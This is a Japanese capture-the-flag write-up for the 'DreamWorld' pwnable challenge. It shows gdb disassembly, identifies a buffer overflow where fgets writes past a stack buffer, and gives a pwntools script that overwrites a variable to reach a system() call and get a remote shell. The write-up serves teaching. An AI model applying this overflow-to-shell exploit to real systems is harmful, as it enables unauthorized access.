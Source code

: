 # nag0m1CTF

https://nag0mictf.tk

## pwnable

### DreamWorld

> My world is very beautiful. I want to conversation with you. Let's have a nice conversation before I break down.
> 
> nc 3.18.62.210 11001

ひとまずnetcatして接続してみます．

```
> echo "Hello world!" | nc 3.18.62.210 11001
Welcome to my world!
Have fun!
Bye.
```

それでは，たくさんの文字列を送信してみます．

```
> echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 3.18.62.210 11001
Welcome to my world!
Bye.
```

`Have fun!`の文字が消えたようです．

このことから，オーバーフローによって条件式の内容が変化しているようです．

<br>

ここで，**gdb**というツールを使用してみます．

これはデバッガーツールとなっており，breakpointをはったり，逆アセンブルをしたりすることができます．

pwnableを解くにあたって非常に重要となるツールです．

<br>

ひとまずgdbを使用して逆アセンブルしてみます．

```
> gdb DreamWorld
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x000000000040073b <+0>:     push   rbp
   0x000000000040073c <+1>:     mov    rbp,rsp
   0x000000000040073f <+4>:     sub    rsp,0x30
   0x0000000000400743 <+8>:     mov    QWORD PTR [rbp-0x30],0x0
   0x000000000040074b <+16>:    mov    QWORD PTR [rbp-0x28],0x0
   0x0000000000400753 <+24>:    mov    QWORD PTR [rbp-0x20],0x0
   0x000000000040075b <+32>:    mov    QWORD PTR [rbp-0x18],0x0
   0x0000000000400763 <+40>:    mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040076a <+47>:    call   0x4006c7 <setup>
   0x000000000040076f <+52>:    lea    rdi,[rip+0xf6]        # 0x40086c
   0x0000000000400776 <+59>:    call   0x400590 <puts@plt>
   0x000000000040077b <+64>:    mov    rdx,QWORD PTR [rip+0x2008ee]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x0000000000400782 <+71>:    lea    rax,[rbp-0x30]
   0x0000000000400786 <+75>:    mov    esi,0x40
   0x000000000040078b <+80>:    mov    rdi,rax
   0x000000000040078e <+83>:    call   0x4005b0 <fgets@plt>
   0x0000000000400793 <+88>:    cmp    DWORD PTR [rbp-0x4],0x0
   0x0000000000400797 <+92>:    jne    0x4007a5 <main+106>
   0x0000000000400799 <+94>:    lea    rdi,[rip+0xe1]        # 0x400881
   0x00000000004007a0 <+101>:   call   0x400590 <puts@plt>
   0x00000000004007a5 <+106>:   cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x00000000004007ac <+113>:   jne    0x4007c1 <main+134>
   0x00000000004007ae <+115>:   lea    rdi,[rip+0xd6]        # 0x40088b
   0x00000000004007b5 <+122>:   call   0x400590 <puts@plt>
   0x00000000004007ba <+127>:   call   0x400728 <win>
   0x00000000004007bf <+132>:   jmp    0x4007d7 <main+156>
   0x00000000004007c1 <+134>:   lea    rdi,[rip+0xd0]        # 0x400898
   0x00000000004007c8 <+141>:   call   0x400590 <puts@plt>
   0x00000000004007cd <+146>:   mov    edi,0xffffffff
   0x00000000004007d2 <+151>:   call   0x4005d0 <exit@plt>
   0x00000000004007d7 <+156>:   leave
   0x00000000004007d8 <+157>:   ret
End of assembler dump.
```

`0x00000000004007ba <+127>:   call   0x400728 <win>`という箇所がwin関数に飛んでいるようですね．

中を見てみましょう．

```
gdb-peda$ disassemble win
Dump of assembler code for function win:
   0x0000000000400728 <+0>:     push   rbp
   0x0000000000400729 <+1>:     mov    rbp,rsp
   0x000000000040072c <+4>:     lea    rdi,[rip+0x131]        # 0x400864
   0x0000000000400733 <+11>:    call   0x4005a0 <system@plt>
   0x0000000000400738 <+16>:    nop
   0x0000000000400739 <+17>:    pop    rbp
   0x000000000040073a <+18>:    ret
End of assembler dump.
```

`0x0000000000400733 <+11>:    call   0x4005a0 <system@plt>`という箇所ですが，この関数はシェルを獲得できるものとなっています．

このことから，win関数に飛ぶことができればシェル獲得できそうだということがわかります．

<br>

シェル獲得をするということは，netcatした先のシェルを奪うことができるということになります．

pwnable問題では，シェルを獲得してフラグを入手するという問題がよくあります．

<br>

ということは，win関数に移動できれば良いということになります．

win関数の移動条件は，main関数にあります．

`0x00000000004007a5 <+106>:   cmp    DWORD PTR [rbp-0x4],0xdeadbeef`というところですね．

rbp-0x4に格納されている値が`0xdeadbeef`のときにwin関数に移動できそうです．

<br>

ここで，値を代入できそうな箇所を探してみると，`0x000000000040078e <+83>:    call   0x4005b0 <fgets@plt>`であることがわかります．

この前の箇所を切り取ってみると，

```
   0x0000000000400782 <+71>:    lea    rax,[rbp-0x30]
   0x0000000000400786 <+75>:    mov    esi,0x40
   0x000000000040078b <+80>:    mov    rdi,rax
   0x000000000040078e <+83>:    call   0x4005b0 <fgets@plt>
```

`lea`という箇所がアドレス計算を表しています．

ここで次のコマンド`0x0000000000400786 <+75>:    mov    esi,0x40`ですが，0x40となっています．

ここで，rbp-0x30のアドレスから0x40分だけ書き込めるということがわかります．

したがって，ここに違和感を感じることだと思います．

<br>

以上のことをあわせると，rbp-0x04に`0xdeadbeef`という単語を入力するために，fgets関数の箇所でrbp-0x30からrbp-0x05までパディングして，rbp-0x04から`0xdeadbeef`を入力することでシェル獲得できそうだと考察できます．

<br>

これを解くにあたって，pythonライブラリである**pwntools**を使用します．

以下が解法例になります．

```
from pwn import *
 
data = b'a' * 0x2c + p64(0xdeadbeef) 

# io = process("./DreamWorld")
io = remote("3.18.62.210", 11001)
print(io.readline())
io.sendline(data)
print(io.readline())
io.interactive()
```

実行したら，シェル獲得できます．

インタラクティブモードに移行するので，`ls`コマンドでディレクトリ確認して，`cat`で`flag.txt`の中身確認したらフラグを入手できます．

```
> python3 DreamWorld.py
[+] Opening connection to 3.18.62.210 on port 11001: Done
b'Welcome to my world!\n'
b'You got it!!\n'
[*] Switching to interactive mode
$ cat flag.txt
nag0m1{7he_w0rld_h4s_br0k3n......}
```

<br>

---
※別解

**ghidra**を用いた解法もあります．

こちらを使用すると逆コンパイルまでできるので理解しやすいと思います．

今回は省略します．
